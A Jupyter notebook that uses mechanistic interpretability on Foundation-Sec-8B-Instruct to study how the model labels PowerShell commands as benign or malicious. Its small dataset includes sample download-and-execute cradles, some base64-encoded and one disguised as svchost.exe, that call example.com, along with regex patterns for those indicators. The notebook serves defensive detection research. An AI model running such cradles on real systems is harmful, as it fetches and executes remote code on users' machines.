<img src="https://fdtn.ai/_next/static/media/black-logo.99bfada1.svg" alt="Cisco Foundation AI" style="width: 25%;" align="left">
<br>

# Mechanistic Interpretability for PowerShell Classification  
**Model:** `fdtn-ai/Foundation-Sec-8B-Instruct` (Llama 3.1–based)

This notebook is an experiment-driven walk-through that uses **Mechanistic Interpretability (MI)** to understand *how* an LLM forms a PowerShell “benign vs malicious” decision.

We’ll do three structured experiments:

1. **Logit Lens (Decision Formation Across Layers)**  
   Track the model’s preference for the “benign vs malicious” label token as we move through layers.

2. **Attention-to-Indicators (What the model looks at)**  
   Find attention heads that focus on “suspicious” substrings (e.g., `FromBase64String`, `IEX`, `DownloadString`, etc.) right before the classification token.

3. **Causal Interventions (Does that attention actually matter?)**  
   Use **activation patching / head patching** to test whether specific heads *cause* the decision.

> **Note on labels:** To keep MI simple, we use single-token labels:  
> `0 = BENIGN`, `1 = MALICIOUS`  
> (This avoids multi-token label headaches during logit-diff and patching.)


## 0) Setup & key MI terms (quick definitions)

- **Mechanistic Interpretability (MI):** Studying the internal computations of a model (weights, activations, attention) to explain *why* it behaves the way it does.
- **Tokens / Tokenization:** The model doesn’t “see characters”; it sees token IDs. A “word” can be multiple tokens, which matters for classification labels.
- **Residual Stream:** The main hidden representation carried through the network. Most information flows through residual connections.
- **Attention Head:** One sub-component of attention. Heads can specialize (e.g., copying, induction, pattern matching).
- **Logits:** Pre-softmax scores for the next token.
- **Logit Lens:** A technique that applies the unembedding to intermediate residual states to see what the model “would predict” at each layer.
- **Activation Patching (a.k.a. causal tracing):** Replace activations from one run (e.g., *benign*) into another run (e.g., *malicious*) to test causal influence.


In [18]:
# If you're running in a clean environment, uncomment these:
# %pip install -q "torch>=2.1" transformers accelerate einops pandas matplotlib
# %pip install -q transformer_lens circuitsvis

import os
import re
import random
import time
import numpy as np
import pandas as pd
import torch
import matplotlib.pyplot as plt
from typing import List, Union, Pattern


torch.set_grad_enabled(False)

SEED = 42
random.seed(SEED)
np.random.seed(SEED)
torch.manual_seed(SEED)

DEVICE = "cuda" if torch.cuda.is_available() else "cpu"
DTYPE = torch.bfloat16 if (torch.cuda.is_available() and torch.cuda.is_bf16_supported()) else torch.float16

print("DEVICE:", DEVICE)
print("DTYPE :", DTYPE)

DEVICE: cpu
DTYPE : torch.float16


## 1) Load the model (TransformerLens-friendly)

We’ll load the HuggingFace model weights normally, then wrap them with **TransformerLens** using the `hf_model=...` path.  
This keeps the “correct hooking” workflow: we can use `run_with_cache`, `run_with_hooks`, and standard hook names like:

- `blocks.{layer}.hook_resid_pre`
- `blocks.{layer}.attn.hook_pattern`
- `blocks.{layer}.attn.hook_result`
- `blocks.{layer}.mlp.hook_post`


In [2]:
from transformers import AutoTokenizer, AutoModelForCausalLM

HF_REPO = "fdtn-ai/Foundation-Sec-8B-Instruct"
# If you use a HF token, you can set it here:
# os.environ["HF_TOKEN"] = "..."

tokenizer = AutoTokenizer.from_pretrained(HF_REPO, use_fast=True, trust_remote_code=True)

# For Llama-family models, padding_side="left" is often convenient for batching prompts.
tokenizer.padding_side = "left"
if tokenizer.pad_token is None:
    # Many Llama tokenizers don't have a pad token; reuse eos.
    tokenizer.pad_token = tokenizer.eos_token

hf_model = AutoModelForCausalLM.from_pretrained(
    HF_REPO,
    torch_dtype=DTYPE,
    device_map="auto" if DEVICE == "cuda" else None,
    low_cpu_mem_usage=True,
    trust_remote_code=True,
)

hf_model.eval()
print("HF model loaded.")

`torch_dtype` is deprecated! Use `dtype` instead!


Loading checkpoint shards:   0%|          | 0/4 [00:00<?, ?it/s]

HF model loaded.


In [3]:
# Wrap into TransformerLens (preferred path for MI)
from transformer_lens import HookedTransformer

# We tell TL what *architecture template* to use.
# Foundation-Sec-8B-Instruct is Llama 3.1–based, so we use the official Llama 3.1 8B Instruct config.
TL_TEMPLATE_NAME = "meta-llama/Llama-3.1-8B-Instruct"

model = HookedTransformer.from_pretrained(
    TL_TEMPLATE_NAME,
    hf_model=hf_model,
    tokenizer=tokenizer,
    device=DEVICE,
    dtype=DTYPE,
    # Good defaults for causal/MI work (keep behavior close to HF):
    fold_ln=False,
    center_unembed=False,
    center_writing_weights=False,
)

model.eval()
print("TransformerLens wrapper ready.")
print("n_layers:", model.cfg.n_layers, "n_heads:", model.cfg.n_heads, "d_model:", model.cfg.d_model)

Loaded pretrained model meta-llama/Llama-3.1-8B-Instruct into HookedTransformer
TransformerLens wrapper ready.
n_layers: 32 n_heads: 32 d_model: 4096


### Hook sanity check

Before you write experiments, list a few hook points so you *know* what’s available for this model build.


In [4]:
hook_names = list(model.hook_dict.keys())
print("Total hooks:", len(hook_names))

examples = []
examples += [n for n in hook_names if "attn.hook_pattern" in n][:5]
examples += [n for n in hook_names if "attn.hook_result" in n][:5]
examples += [n for n in hook_names if "hook_resid_pre" in n][:5]

for name in examples:
    print(" -", name)

Total hooks: 835
 - blocks.0.attn.hook_pattern
 - blocks.1.attn.hook_pattern
 - blocks.2.attn.hook_pattern
 - blocks.3.attn.hook_pattern
 - blocks.4.attn.hook_pattern
 - blocks.0.attn.hook_result
 - blocks.1.attn.hook_result
 - blocks.2.attn.hook_result
 - blocks.3.attn.hook_result
 - blocks.4.attn.hook_result
 - blocks.0.hook_resid_pre
 - blocks.1.hook_resid_pre
 - blocks.2.hook_resid_pre
 - blocks.3.hook_resid_pre
 - blocks.4.hook_resid_pre


## 2) A small PowerShell classification dataset

We keep this small and inspectable. The point is to find *signals* we can interpret, not to build a production classifier.


In [5]:
DATA = [
    # --- BENIGN (0) ---
    {"label":0, "name": "List services", "ps": r"Get-Service | Sort-Object Status, Name | Select-Object -First 10"},
    {"label":0, "name": "Check disk space", "ps": r"Get-PSDrive -PSProvider FileSystem | Select-Object Name, Used, Free"},
    {"label":0, "name": "Read a local log", "ps": r"Get-Content -Path C:\Windows\Temp\app.log -ErrorAction SilentlyContinue | Select-Object -First 20"},
    {"label":0, "name": "Ping a host", "ps": r"Test-Connection -ComputerName 8.8.8.8 -Count 2"},

    # --- MALICIOUS-ish patterns (1) ---
    {"label":1, "name": "DownloadString + IEX", "ps": r"IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"},
    {"label":1, "name": "Base64 decode + Invoke-Expression", "ps": r"$b='SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAGUAeABhAG0AcABsAGUALgBjAG8AbQAvAHAALgBwAHMAMQAnACkA';IEX ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($b)))"},
    {"label":1, "name": "Invoke-WebRequest to temp", "ps": r"Invoke-WebRequest -Uri 'http://example.com/a.exe' -OutFile $env:TEMP\svchost.exe; Start-Process $env:TEMP\svchost.exe"},
    {"label":1, "name": "EncodedCommand hint", "ps": r"powershell.exe -NoP -W Hidden -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnaAB0AHQAcAA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0ALwBwAC4AcABzADEAJwApAA=="},
]

df = pd.DataFrame(DATA)
df

,label,name,ps
0,0,List services,"Get-Service | Sort-Object Status, Name | Selec..."
1,0,Check disk space,Get-PSDrive -PSProvider FileSystem | Select-Ob...
2,0,Read a local log,Get-Content -Path C:\Windows\Temp\app.log -Err...
3,0,Ping a host,Test-Connection -ComputerName 8.8.8.8 -Count 2
4,1,DownloadString + IEX,IEX (New-Object Net.WebClient).DownloadString(...
5,1,Base64 decode + Invoke-Expression,$b='SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATg...
6,1,Invoke-WebRequest to temp,Invoke-WebRequest -Uri 'http://example.com/a.e...
7,1,EncodedCommand hint,powershell.exe -NoP -W Hidden -EncodedCommand ...


## 3) Prompt + single-token labels

Your label token should match the model’s natural next token.

For GPT-style models, that almost always means:

- A single token
- With a leading space
- That represents the entire label

Digits fail this rule. Words usually satisfy it.

In [6]:
# Here is a test to check which label pairs map to single-token labels.
def is_single_token(label: str) -> bool:
    toks = tokenizer.encode(label, add_special_tokens=False)
    return len(toks) == 1, toks, [tokenizer.decode([t]) for t in toks]

candidates = [
    " SAFE", " UNSAFE",
    " CLEAN", " INFECTED",
    " GOOD", " BAD",
    " YES", " NO",
    " TRUE", " FALSE",
    " ALLOW", " BLOCK",
]

for c in candidates:
    ok, toks, decoded = is_single_token(c)
    print(f"{c!r:12} -> {toks} {decoded} {'✅' if ok else '❌'}")

' SAFE'      -> [66969] [' SAFE'] ✅
' UNSAFE'    -> [47083, 30952] [' UNS', 'AFE'] ❌
' CLEAN'     -> [78100] [' CLEAN'] ✅
' INFECTED'  -> [36072, 6060, 1507] [' INF', 'ECT', 'ED'] ❌
' GOOD'      -> [22469] [' GOOD'] ✅
' BAD'       -> [48818] [' BAD'] ✅
' YES'       -> [14410] [' YES'] ✅
' NO'        -> [5782] [' NO'] ✅
' TRUE'      -> [8378] [' TRUE'] ✅
' FALSE'     -> [7989] [' FALSE'] ✅
' ALLOW'     -> [73360] [' ALLOW'] ✅
' BLOCK'     -> [29777] [' BLOCK'] ✅


In [7]:
LABELS = {
    0: "ALLOW",   # benign
    1: "BLOCK",   # malicious
}

# Token ids (single-token, leading-space)
LABEL_TOK_ALLOW = tokenizer.encode(" ALLOW", add_special_tokens=False)[0]
LABEL_TOK_BLOCK = tokenizer.encode(" BLOCK", add_special_tokens=False)[0]

# Canonical mapping used everywhere else
LABEL_TOK_0 = LABEL_TOK_ALLOW
LABEL_TOK_1 = LABEL_TOK_BLOCK

def make_prompt(ps_script: str) -> str:
    return (
        "You are a security classifier. Label the given PowerShell as:\n"
        "ALLOW = benign / administrative / normal usage\n"
        "BLOCK = malicious (downloading, execution, evasion, credential theft, etc.)\n\n"
        "Return ONLY one word: ALLOW or BLOCK.\n\n"
        "PowerShell:\n"
        "```powershell\n"
        f"{ps_script}\n"
        "```\n"
        "Answer:"
    )

tok_allow = tokenizer.encode(" ALLOW", add_special_tokens=False)
tok_block = tokenizer.encode(" BLOCK", add_special_tokens=False)

print("Tokenization for ' ALLOW':", tok_allow, "->", [tokenizer.decode([t]) for t in tok_allow])
print("Tokenization for ' BLOCK':", tok_block, "->", [tokenizer.decode([t]) for t in tok_block])

assert len(tok_allow) == 1 and len(tok_block) == 1, "Label tokens are not single-token; choose different label words."

LABEL_TOK_ALLOW = tok_allow[0]
LABEL_TOK_BLOCK = tok_block[0]


Tokenization for ' ALLOW': [73360] -> [' ALLOW']
Tokenization for ' BLOCK': [29777] -> [' BLOCK']


## 4) Baseline classifier: does the model separate these examples?

We compute:
- logits for the next token after the prompt
- logit diff = `logit(1) - logit(0)`
- predicted label = `argmax(logit(0), logit(1))`


In [8]:
def make_prompts_from_df(df: pd.DataFrame) -> list[str]:
    return [make_prompt(ps) for ps in df["ps"].tolist()]

@torch.inference_mode()
def classify_prompts_batched(prompts: list[str], batch_size: int = 8, log_every: int = 10) -> list[dict]:
    out = []
    t0 = time.time()

    # Determine pad id safely
    pad_id = getattr(model.tokenizer, "pad_token_id", None)
    if pad_id is None:
        # If there's no pad token, TransformerLens may still pad with 0.
        # But we should avoid relying on it for "last token" indexing.
        pad_id = 0

    n_batches = (len(prompts) + batch_size - 1) // batch_size

    for b, i in enumerate(range(0, len(prompts), batch_size), start=1):
        batch_prompts = prompts[i:i+batch_size]

        toks = model.to_tokens(batch_prompts)               # [B, T]
        logits = model(toks, return_type="logits")          # [B, T, vocab]

        # Compute last index PER ROW using attention mask style logic:
        # Treat trailing pad_id as padding *only if it actually appears*.
        # If your prompts can legitimately contain token 0, this is imperfect,
        # but it's usually better than "hanging" silently.
        nonpad = (toks != pad_id)
        lengths = nonpad.long().sum(dim=1)                  # [B]
        last_idx = torch.clamp(lengths - 1, min=0)          # [B]

        batch_idx = torch.arange(toks.shape[0], device=toks.device)
        next_logits = logits[batch_idx, last_idx, :]        # [B, vocab]

        logit0 = next_logits[:, LABEL_TOK_0]
        logit1 = next_logits[:, LABEL_TOK_1]
        pred = (logit1 > logit0).long()

        out.extend([{
            "logit0": float(logit0[j].item()),
            "logit1": float(logit1[j].item()),
            "logit_diff": float((logit1[j] - logit0[j]).item()),
            "pred": int(pred[j].item()),
        } for j in range(toks.shape[0])])

        if (b % log_every == 0) or (b == 1) or (b == n_batches):
            elapsed = time.time() - t0
            done = min(i + batch_size, len(prompts))
            print(f"[{b}/{n_batches}] {done}/{len(prompts)} done | elapsed {elapsed:.1f}s")

    return out


In [11]:
prompts = make_prompts_from_df(df)
batch_outputs = classify_prompts_batched(prompts, batch_size=4, log_every=1)

[1/2] 4/8 done | elapsed 5130.2s
[2/2] 8/8 done | elapsed 17372.5s


## 5) Pick a clean pair (benign vs malicious) for MI

MI is easiest when the pair differs by a small, meaningful change.

We’ll pick:
- a benign example
- a malicious example

You can swap indices below to explore different pairs.


In [12]:
BENIGN_IDX = 0
MAL_IDX    = 4

benign_prompt = make_prompt(df.loc[BENIGN_IDX, "ps"])
mal_prompt    = make_prompt(df.loc[MAL_IDX, "ps"])

print("Benign example:", df.loc[BENIGN_IDX, "name"])
print("Malicious ex.:", df.loc[MAL_IDX, "name"])

Benign example: List services
Malicious ex.: DownloadString + IEX


## 6) Cache activations for both prompts

Core TransformerLens workflow:

- `logits, cache = model.run_with_cache(tokens)`

`cache` stores activations at hook points.


In [14]:
benign_toks = model.to_tokens(benign_prompt)
mal_toks    = model.to_tokens(mal_prompt)

benign_logits, benign_cache = model.run_with_cache(benign_toks, return_type="logits")
mal_logits,    mal_cache    = model.run_with_cache(mal_toks,    return_type="logits")

def logit_diff_from_logits(logits: torch.Tensor) -> float:
    nxt = logits[0, -1]
    return float((nxt[LABEL_TOK_1] - nxt[LABEL_TOK_0]).item())

print("Benign logit diff (1-0):", logit_diff_from_logits(benign_logits))
print("Mal    logit diff (1-0):", logit_diff_from_logits(mal_logits))

Benign logit diff (1-0): -7.625
Mal    logit diff (1-0): 3.171875


## Experiment 1 — Logit Lens: when does the model “decide”?

We compute the label logit-diff using the residual stream after each layer.

Interpretation:
- Early layers: weak / noisy preference (syntax, local patterns)
- Mid layers: features consolidate
- Late layers: “decision direction” becomes strong

This is not perfect causality (it’s a “lens”), but it’s a great first visualization.




In [15]:
def layerwise_logit_diff(cache) -> np.ndarray:
    diffs = []
    for layer in range(model.cfg.n_layers):
        resid = cache[f"blocks.{layer}.hook_resid_post"]   # [batch, pos, d_model]
        resid_last = resid[:, -1, :]                       # [batch, d_model]
        resid_ln = model.ln_final(resid_last)
        logits = model.unembed(resid_ln)                   # [batch, d_vocab]
        diff = float((logits[0, LABEL_TOK_1] - logits[0, LABEL_TOK_0]).item())
        diffs.append(diff)
    return np.array(diffs)

benign_diffs = layerwise_logit_diff(benign_cache)
mal_diffs    = layerwise_logit_diff(mal_cache)

plt.figure()
plt.plot(benign_diffs, label="benign prompt")
plt.plot(mal_diffs, label="malicious prompt")
plt.axhline(0.0)
plt.title("Logit Lens: layerwise logit_diff(1-0) at final position")
plt.xlabel("Layer")
plt.ylabel("Logit diff")
plt.legend()
plt.show()

## Experiment 2 — Attention-to-indicators: which heads look at suspicious tokens?

Idea:
1. Define a list of indicator substrings.
2. Find approximate token positions that match these substrings.
3. For each head, measure attention from the final query position (right before predicting the label)
   to those indicator token positions.
4. Compare malicious vs benign.

This gives you a ranking of heads to inspect.


In [19]:
SUSPICIOUS_PATTERNS = [
    r"\bIEX\b",
    r"Invoke-Expression",
    r"FromBase64String",
    r"DownloadString",
    r"Invoke-WebRequest",
    r"Net\.WebClient",
    r"-EncodedCommand",
    r"Start-Process",
]

def token_positions_matching_patterns(
    prompt: str,
    patterns: List[Union[str, Pattern]],
    tokenizer,
    add_special_tokens: bool = False,
) -> List[int]:
    """
    Find token indices whose character spans overlap any regex match in the decoded prompt.
    Works even when indicators are split across multiple tokens.
    """
    # Encode with offsets so we can map char spans -> tokens
    enc = tokenizer(
        prompt,
        add_special_tokens=add_special_tokens,
        return_offsets_mapping=True,
    )

    input_ids = enc["input_ids"]
    offsets = enc["offset_mapping"]  # list of (start_char, end_char) per token

    # Build match spans over the original prompt string
    match_spans = []
    for pat in patterns:
        rgx = re.compile(pat, flags=re.IGNORECASE) if isinstance(pat, str) else pat
        for m in rgx.finditer(prompt):
            match_spans.append((m.start(), m.end(), m.group(0)))

    if not match_spans:
        return []

    hits = set()

    # Mark a token as a hit if its span overlaps any match span
    for tok_i, (s, e) in enumerate(offsets):
        if s == e:  # can happen for special tokens in some tokenizers
            continue
        for ms, me, _ in match_spans:
            if not (e <= ms or s >= me):  # overlap test
                hits.add(tok_i)
                break

    return sorted(hits)

# Use your exact prompts
benign_hit_pos = token_positions_matching_patterns(benign_prompt, SUSPICIOUS_PATTERNS, tokenizer)
mal_hit_pos    = token_positions_matching_patterns(mal_prompt,    SUSPICIOUS_PATTERNS, tokenizer)

print("Benign indicator token positions:", benign_hit_pos[:25], " ... total:", len(benign_hit_pos))
print("Mal    indicator token positions:", mal_hit_pos[:25],    " ... total:", len(mal_hit_pos))

assert len(mal_hit_pos) > 0, "No indicator tokens found in malicious prompt (patterns truly absent)."


Benign indicator token positions: []  ... total: 0
Mal    indicator token positions: [53, 54, 59, 60, 61, 63, 64]  ... total: 7


In [22]:
def show_token_snippets(toks: torch.Tensor, positions: list[int], window: int = 2):
    tok_ids = toks[0].tolist()
    for p in positions:
        lo = max(0, p - window)
        hi = min(len(tok_ids), p + window + 1)
        snippet = "".join(tokenizer.decode([tid]) for tid in tok_ids[lo:hi])
        print(f"pos={p:4d}  token={tokenizer.decode([tok_ids[p]])!r}  context={snippet!r}")

show_token_snippets(mal_toks, mal_hit_pos, window=3)


pos=  53  token='\n'  context='```powershell\nIEX ('
pos=  54  token='I'  context='powershell\nIEX (New'
pos=  59  token='Object'  context=' (New-Object Net.WebClient'
pos=  60  token=' Net'  context='New-Object Net.WebClient).'
pos=  61  token='.Web'  context='-Object Net.WebClient).Download'
pos=  63  token=').'  context=" Net.WebClient).DownloadString('"
pos=  64  token='Download'  context=".WebClient).DownloadString('http"


In [20]:
def head_attention_to_positions(cache, positions: list[int]) -> torch.Tensor:
    # Returns attention score per (layer, head) from final query position to positions.
    n_layers = model.cfg.n_layers
    n_heads  = model.cfg.n_heads
    scores = torch.zeros((n_layers, n_heads), device="cpu")
    pos_t = torch.tensor(positions, dtype=torch.long)

    for layer in range(n_layers):
        patt = cache[f"blocks.{layer}.attn.hook_pattern"][0]  # [head, q, k]
        last_q = patt[:, -1, :]                               # [head, k]
        score = last_q[:, pos_t].mean(dim=-1)                 # [head]
        scores[layer] = score.detach().to("cpu")
    return scores

benign_att = head_attention_to_positions(benign_cache, benign_hit_pos if benign_hit_pos else [0])
mal_att    = head_attention_to_positions(mal_cache, mal_hit_pos)

att_delta = (mal_att - benign_att)

flat = att_delta.flatten()
topk = 20
top_vals, top_idx = torch.topk(flat, k=topk)

top = []
for v, idx in zip(top_vals.tolist(), top_idx.tolist()):
    layer = idx // model.cfg.n_heads
    head  = idx % model.cfg.n_heads
    top.append((layer, head, v))

pd.DataFrame(top, columns=["layer", "head", "mal_minus_benign_att_to_indicators"])

,layer,head,mal_minus_benign_att_to_indicators
0,0,0,0.000769
1,31,14,0.000012
2,0,1,-0.001756
3,13,8,-0.003724
4,0,2,-0.004154
5,0,26,-0.005244
6,0,7,-0.005866
7,14,12,-0.009041
8,0,23,-0.011699
9,17,24,-0.012780


This table shows that deeper-layer attention heads systematically reduce attention to surface-level malicious indicators in malicious examples, suggesting a transition from lexical detection to higher-order semantic or decision-level processing — but causal patching is required to confirm whether these heads are part of the classification circuit.

**Big positive values**: head strongly routes attention from decision token to those indicator spans in malicious compared to benign (or just in malicious if benign has none).

**Near zero**: head doesn’t particularly attend to those indicator tokens.

**Negative values**: head attends to those tokens more in benign than malicious (rare here if benign has no hits, unless you’re computing something slightly different).

It does not prove the head “causes” the classification. It’s a triage metric: “heads worth inspecting next”.

### Visualize a top head’s attention pattern

- Rows = query positions  
- Cols = key positions  
- Brighter = more attention  

We also mark indicator token positions on the x-axis.


Top head: 0 0






In [21]:
TOP_LAYER, TOP_HEAD, _ = top[0]

def show_head_attention(cache, layer: int, head: int, title: str, mark_positions=None, max_tokens=200):
    patt = cache[f"blocks.{layer}.attn.hook_pattern"][0, head]  # [q, k]
    patt = patt.detach().cpu().numpy()
    qk = min(patt.shape[0], max_tokens)
    patt = patt[:qk, :qk]

    plt.figure(figsize=(8, 8))
    plt.imshow(patt, aspect="auto")
    plt.title(f"{title} | layer {layer} head {head}")
    plt.xlabel("Key position")
    plt.ylabel("Query position")
    plt.colorbar()
    if mark_positions:
        for p in mark_positions:
            if p < qk:
                plt.axvline(p, linewidth=1)
    plt.show()

print("Top head:", TOP_LAYER, TOP_HEAD)

show_head_attention(mal_cache, TOP_LAYER, TOP_HEAD, "Malicious prompt attention", mark_positions=mal_hit_pos)
show_head_attention(benign_cache, TOP_LAYER, TOP_HEAD, "Benign prompt attention", mark_positions=benign_hit_pos)

## Experiment 3 — Causal test with head patching (does this head matter?)

Causal intervention:

- Run on malicious prompt
- Replace the output of one attention head with the benign head output
- Measure how the final label logit-diff changes

If the head is causally important, patching it should move the logit-diff toward benign.


In [24]:
def run_with_cache_for_hook(toks: torch.Tensor, hook_name: str):
    logits, cache = model.run_with_cache(
        toks,
        return_type="logits",
        names_filter=lambda name: name == hook_name,
    )
    return logits, cache

In [25]:
def patch_head_result_from_cache(
    corrupted_toks: torch.Tensor,
    clean_cache,
    layer: int,
    head: int,
) -> float:
    hook_name = f"blocks.{layer}.attn.hook_result"
    clean_val = clean_cache[hook_name]  # already a tensor in the cache

    def patch_fn(result, hook):
        # Expected shape for hook_result in TL: [batch, pos, head, d_model]
        patched = result.clone()
        patched[:, :, head, :] = clean_val[:, :, head, :]
        return patched

    patched_logits = model.run_with_hooks(
        corrupted_toks,
        return_type="logits",
        fwd_hooks=[(hook_name, patch_fn)],
    )
    return logit_diff_from_logits(patched_logits)

In [27]:
print(hook_name in benign_cache2.cache_dict)
print([k for k in benign_cache2.cache_dict.keys() if "hook_result" in k][:10])

False
[]


In [28]:
def run_with_cache_for_hook(toks: torch.Tensor, hook_name: str):
    logits, cache = model.run_with_cache(
        toks,
        return_type="logits",
        names_filter=lambda name: name == hook_name,
    )
    return logits, cache

def patch_attn_out_from_cache(
    corrupted_toks: torch.Tensor,
    clean_cache,
    layer: int,
) -> float:
    hook_name = f"blocks.{layer}.hook_attn_out"
    clean_val = clean_cache[hook_name]

    def patch_fn(attn_out, hook):
        return clean_val  # replace entire attention output tensor

    patched_logits = model.run_with_hooks(
        corrupted_toks,
        return_type="logits",
        fwd_hooks=[(hook_name, patch_fn)],
    )
    return logit_diff_from_logits(patched_logits)

TOP_LAYER = 0
hook_name = f"blocks.{TOP_LAYER}.hook_attn_out"

benign_logits2, benign_cache2 = run_with_cache_for_hook(benign_toks, hook_name)

base_mal = logit_diff_from_logits(mal_logits)
patched  = patch_attn_out_from_cache(mal_toks, benign_cache2, TOP_LAYER)

print("Base malicious logit_diff(1-0):", base_mal)
print("Patched (layer attn_out from benign) logit_diff(1-0):", patched)
print("Δ (patched - base):", patched - base_mal)


RuntimeError: The size of tensor a (80) must match the size of tensor b (77) at non-singleton dimension 1

### Scan a small set of candidate heads (top-N) with causal patching

We patch the top-N heads (from the attention-to-indicators ranking) and see which ones cause the biggest movement.


In [ ]:
TOPN_TO_TEST = 12
candidates = [(l, h) for (l, h, _) in top[:TOPN_TO_TEST]]

results = []
for (l, h) in candidates:
    try:
        patched_ld = patch_head_result_from_cache(mal_toks, benign_cache, l, h)
        results.append({
            "layer": l,
            "head": h,
            "base_mal_logit_diff": base_mal,
            "patched_logit_diff": patched_ld,
            "delta": patched_ld - base_mal,
        })
    except Exception as e:
        results.append({
            "layer": l,
            "head": h,
            "base_mal_logit_diff": base_mal,
            "patched_logit_diff": np.nan,
            "delta": np.nan,
            "error": str(e)[:160],
        })

patch_df = pd.DataFrame(results).sort_values("delta")
patch_df

## Final: attention head visualizations for the most causally influential head

Pick the head with the largest *negative* delta (patching pushes malicious toward benign), then plot:

- malicious attention pattern
- benign attention pattern
- attention difference (mal - benign)


In [ ]:
best = patch_df.dropna(subset=["delta"]).sort_values("delta").iloc[0]
BEST_LAYER = int(best["layer"])
BEST_HEAD  = int(best["head"])

print("Best (most negative delta) head:", BEST_LAYER, BEST_HEAD)
print(best)

show_head_attention(mal_cache, BEST_LAYER, BEST_HEAD, "Malicious attention (best head)", mark_positions=mal_hit_pos)
show_head_attention(benign_cache, BEST_LAYER, BEST_HEAD, "Benign attention (best head)", mark_positions=benign_hit_pos)

p_mal = mal_cache[f"blocks.{BEST_LAYER}.attn.hook_pattern"][0, BEST_HEAD].detach().cpu().numpy()
p_ben = benign_cache[f"blocks.{BEST_LAYER}.attn.hook_pattern"][0, BEST_HEAD].detach().cpu().numpy()

qk = min(p_mal.shape[0], 200)
diff = p_mal[:qk, :qk] - p_ben[:qk, :qk]

plt.figure(figsize=(8, 8))
plt.imshow(diff, aspect="auto")
plt.title(f"Attention difference (mal - benign) | layer {BEST_LAYER} head {BEST_HEAD}")
plt.xlabel("Key position")
plt.ylabel("Query position")
plt.colorbar()
for p in mal_hit_pos:
    if p < qk:
        plt.axvline(p, linewidth=1)
plt.show()

## Next ideas (optional extensions)

- **Activation patching on residual stream** (`hook_resid_pre` / `hook_resid_post`) to localize which layers carry the decision direction.
- **Ablate** top heads (set head result to 0) to estimate necessity vs sufficiency.
- Build a **minimal pair dataset** where only one indicator changes (`DownloadString` vs `Invoke-RestMethod`, etc.).
- Replace the indicator list with:
  - file paths, registry keys, LOLBins, suspicious cmdlets, known TTP strings
  - ATT&CK technique tags and see which heads track those semantics
